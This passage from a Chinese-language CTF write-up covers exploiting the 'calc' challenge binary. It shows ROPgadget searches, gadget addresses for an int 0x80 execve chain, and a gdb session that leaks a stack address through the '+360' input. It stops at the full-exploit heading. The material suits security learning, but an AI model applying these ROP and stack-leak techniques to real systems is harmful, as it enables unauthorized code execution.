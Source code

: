 通过ROPgadget这个工具：

```bash
➜ ROPgadget --binary ./calc --only 'pop|ret' | grep 'eax' 
➜ ROPgadget --binary ./calc --only 'pop|ret' | grep 'ecx'
➜ ROPgadget --binary ./calc --only 'int'
```

找到一些可用的gadget：

```
0x0805c34b : pop eax ; ret
0x080701d0 : pop edx ; pop ecx ; pop ebx ; ret
0x08049a21 : int 0x80
```

这里之前有个疑问，我现在是64位的ubuntu下执行32位的程序，execve的系统调用的只在32位下是11号啊？我应该用64位的系统调用号才对啊。而且我执行的原理是因为安装了相应的库，不过系统调用这个功能应该在linux 内核中呀，怎么可能通过安装一个库就达到了两种系统调用号的兼容呢？

后来找到了答案，是因为64位的系统调用正常应该是通过syscall指令执行的，而不是int 0x80指令，但是64位的ubuntu中保留了通过int 0x80进行系统调用的途径，所以可以执行成功。

### 泄露栈地址

我们知道通过+360就行泄露出old_ebp的值，即main函数的ebp，所以只要知道main函数到调用calc函数时的栈帧的长度，然后用old_ebp减去就能得到现在的ebp寄存器的值。这里可以静态分析，也可以动态调试获得该值。我是动态调试看的结果：

我们断在calc()刚刚打印完计算结果处，即0x0804941E这个地址：

```bash
➜  calc gdb -q ./calc 
Reading symbols from ./calc...(no debugging symbols found)...done.
gdb-peda$ b * 0x0804941E
Breakpoint 1 at 0x804941e
gdb-peda$ r
Starting program: /mnt/hgfs/桌面/pwnable/calc/calc 
=== Welcome to SECPROG calculator ===
+360
-12568
```

gdb断下观察EBP寄存器：

```
EBP: 0xffffcec8 --> 0xffffcee8 --> 0x8049c30 (<__libc_csu_fini>:	push   ebx)
```

由于我们打印出的是负数-12568，我们看一下这个负数的补码是啥：

```c
#include<stdio.h>
int main(){
int a = -12568;
printf("%x",a);
}
```
结果为ffffcee8，可见只要把这个结果减上0x20就是现在的ebp寄存器的值

### 完整EXP

